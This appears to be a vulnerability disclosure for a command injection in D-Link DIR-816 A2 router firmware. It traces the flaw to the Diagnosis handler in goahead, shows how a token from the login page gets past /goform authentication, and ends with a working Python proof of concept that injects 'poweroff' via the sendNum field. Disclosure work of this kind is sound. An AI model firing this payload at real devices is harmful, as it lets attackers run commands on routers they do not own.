



# D-Link DIR-816 A2 1.10 B05 command injection

## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816


## Vulnerability
Vulnerability is in ./bin/goahead. The function corresponding to Diagnosis can be found in the formDefineManagement function: 


In the sub_45AC4C function  


After concatenating the strings, the system command is executed.

but in the main function, Accessing the /goform route requires verification by the websFormHandler function


In the websFormHandler function


Accessing the /goform route need a tokenid, and access this route can get a tokenid


## Verify
First, get a tokenid
```
curl http://127.0.0.1/dir_login.asp
```
Excuting command
```
import requests

url = "http://127.0.0.1/goform/Diagnosis"

data = {
    "tokenid": "xxx",
    "pingAddr": "127.0.0.1",
    "sendNum": "poweroff"
}

requests.post(url=url, data=data)
```
